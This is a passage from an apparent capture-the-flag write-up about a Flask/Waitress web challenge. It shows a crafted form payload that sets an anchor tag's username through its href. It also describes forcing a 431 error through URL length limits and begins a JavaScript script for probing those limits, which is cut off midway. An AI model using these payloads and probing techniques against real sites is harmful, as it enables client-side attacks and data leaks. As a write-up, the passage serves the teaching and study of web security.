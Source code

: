 It turns out that the anchor tag's username property actually refers to the username part of the `href` value (see [this](https://www.w3schools.com/jsref/prop\_anchor\_username.asp)). This meant that in order to set `order.user.username` to `pilvar`, all we had to do was to supply a URL starting with `pilvar@` to the `href` attribute.

```
username=x&email=x&address=1&quantity=user&article=user:/pilvar@x.com
```

### Triggering the Exception

Now comes the tricky part - how do we trigger the exception in the first place?

My first thought was to look for interoperability issues between Flask's JSON response and JavaScript's `JSON.parse`. I tried things like weird unicode characters and JSON comments, but nothing worked. One nap later I convinced myself that both Flask and JavaScript are probably spec-compliant when handling JSON, and I was probably not intended to find a JSON parsing 0-day.

If JSON parsing is out of the question, then the only way to cause an exception here is to make the `/order/<order_id>/get_user_infos` endpoint return something that is _not_ JSON in the first place! Going back to the `/order/create` endpoint, I started to question the weird `order_id` format.

```python
order_id = codecs.encode((article+quantity+username+address).encode('ascii'), 'base64').decode('utf-8')
order_id = order_id.replace("\n","")
```

We know that the user can create arbitrary-length order IDs, and we need `get_user_infos` to somehow fail. Since the `/order/<order_id>/preview` URL is 7 bytes shorter than the `/order/<order_id>/get_user_infos` one, there is a 7-byte window where `preview` would succeed but `get_user_infos` will fail due to URL length limits enforced by the web server. This is a known technique that in some cases can be helpful in performing XS-Leaks.

In the case of Waitress, the 431 Request Header Fields Too Large response code is returned.

```http
HTTP/1.0 431 Request Header Fields Too Large
Connection: close
Content-Length: 90
Content-Type: text/plain
Date: Sun, 25 Sep 2022 07:58:27 GMT
Server: waitress

Request Header Fields Too Large

exceeds max_header of 262144

(generated by waitress)
```

Using this script to binary search for the longest URL we could get before the error occurs, I got an approximate length for the `order_id` to trigger this exploit.

```javascript
let URL_LIMIT = 1000000

const checkLoad = async (url) => {
    let res = await fetch(url)
    return res.ok
}

const genUrl = (url, n) => {
    let seperator = url.includes('?') ? '&foo=' : '?foo='
    let endMarker = 'END'
    let l  = n - url.length - seperator.length - endMarker.length
    let newUrl = url + seperator + 'a'.repeat(l) + endMarker
    if(newUrl.length !== n){
        console.debug(`[!] ${newUrl.length} !== ${n}`)
```